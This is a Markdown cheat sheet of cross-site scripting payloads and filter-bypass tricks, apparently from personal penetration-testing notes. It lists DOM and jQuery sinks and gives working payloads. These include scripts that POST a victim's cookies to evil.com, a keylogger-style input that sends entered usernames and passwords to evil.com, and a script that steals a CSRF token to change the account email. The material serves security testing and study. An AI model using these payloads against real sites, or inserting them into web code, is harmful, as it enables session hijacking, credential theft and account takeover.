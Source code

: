 ```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
ignore_macros: true
---
```


# XSS

## Attack

### Payloads

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">

<svg><animatetransform onbegin=alert(1)>

<iframe src='https://example.com/?search="><body onresize=print()>' onload=this.style.width='100px'>

domain.com/?search=<div id=anchor onfocus=alert(document.cookie) tabindex=1>#anchor
```

More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### HTML events and tags

Lists :

- [all-html-events.txt](/assets/txt/all-html-events.txt)
- [all-html-tags.txt](/assets/txt/all-html-tags.txt)

> Source [www.w3schools.com - event](https://www.w3schools.com/tags/ref_eventattributes.asp) and [www.w3schools.com - tags](https://www.w3schools.com/TAGs/).

### DOM XSS

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()  
document.writeln()  
document.domain  
element.innerHTML  
element.outerHTML  
element.insertAdjacentHTML  
element.onevent  
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()  
after()  
append()  
animate()  
insertAfter()  
insertBefore()  
before()  
html()  
prepend()  
replaceAll()  
replaceWith()  
wrap()  
wrapInner()  
wrapAll()  
has()  
constructor()  
init()  
index()  
jQuery.parseHTML()  
$.parseHTML()
```

> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).

## Bypass

### Replace function

The `replace` function only replace the first occurence.

```js
> "<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;img src=x onerror='alert()'>"


> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;<img src=x onerror='alert()'>"
```

### jQuery's $() selector

- `<iframe src="https://example.com/" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

### AngularJS ng-app

- `{{$on.constructor('alert(1)')()}}`

### Send cookie via POST request

```html
<script>
fetch('https://evil.com',{method:'POST',mode:'no-cors',body:document.cookie});
</script>
```

### Capture passwords (keylogger)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://evil.com',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">
```

### URL Reflection + Bind Key

`/?%27accesskey=%27x%27onclick=%27alert()`, then `Alt+x` on Brave

### HTML entity escape

- `http://example&apos;,alert(),&apos;` => `('http://example',alert(),'...')'`

### Change CSRF

```html
<script>
let req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('GET', '/my-account', true);
req.send();

function handleResponse() {
    let csrfToken = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    fetch("/my-account/change-email", {
        "body": "email=toto@toto.com&csrf=" + csrfToken,
        "method": "POST"
    });
};
</script>
```

### Escape 

`'` and `\`

```html
</script><script>alert()</script>
```

`'` with `<` filtered

```html
\';alert()//
&apos;-alert(1)-&apos;
```

XSS inside backticks

```html
${alert(document.domain)}
```